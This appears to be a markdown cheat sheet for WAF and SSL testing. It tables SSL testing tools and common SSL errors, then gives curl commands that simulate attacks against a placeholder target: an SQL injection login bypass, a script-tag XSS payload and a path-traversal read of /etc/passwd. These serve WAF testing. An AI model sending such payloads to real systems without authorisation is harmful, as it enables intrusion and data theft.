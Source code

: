 
#### 🧪 Tools for SSL Testing

| Tool                                              | Purpose                         | Example                      |
| ------------------------------------------------- | ------------------------------- | ---------------------------- |
| `openssl s_client -connect domain.com:443`        | Manual SSL handshake inspection | Shows cert, cipher, protocol |
| [SSL Labs Test](https://www.ssllabs.com/ssltest/) | Full SSL health check           | Public test of TLS strength  |
| `curl -Iv https://domain.com`                     | Checks HTTP over SSL            | Verifies cert chain, headers |
| Browser Dev Tools > Security tab                  | Live cert and SSL info          | For visual inspection        |

---

#### 📌 Bonus: Common SSL Errors in WAF Context

| Error                               | Likely Cause                                          |
| ----------------------------------- | ----------------------------------------------------- |
| `SSL Handshake Failure`             | Cert mismatch, unsupported cipher                     |
| `ERR_SSL_PROTOCOL_ERROR`            | Bad cert, port mismatch (HTTP on 443)                 |
| `NET::ERR_CERT_COMMON_NAME_INVALID` | SAN/CN mismatch                                       |
| `502 Bad Gateway`                   | Backend server not reachable or invalid re-encryption |
| `curl: (35) SSL connect error`      | Cipher negotiation failed                             |

---

Here is your **🧪 Attack Simulation Scripts** and **🛡️ Useful Tools for WAF Simulation** section in clean `.md` format:

````md
### 🧪 Attack Simulation Scripts

Use these commands and payloads to simulate common attacks against a WAF-protected application.

#### 🔸 1. SQL Injection (SQLi)
```bash
curl -X POST https://target.com/login.php \
  -d "username=admin'+OR+1=1--&password=abc"
````

#### 🔸 2. Cross-Site Scripting (XSS)

```bash
curl "https://target.com/search?q=<script>alert(1)</script>"
```

#### 🔸 3. Local File Inclusion (LFI)

```bash
curl "https://target.com/view.php?page=../../../../etc/passwd"
```
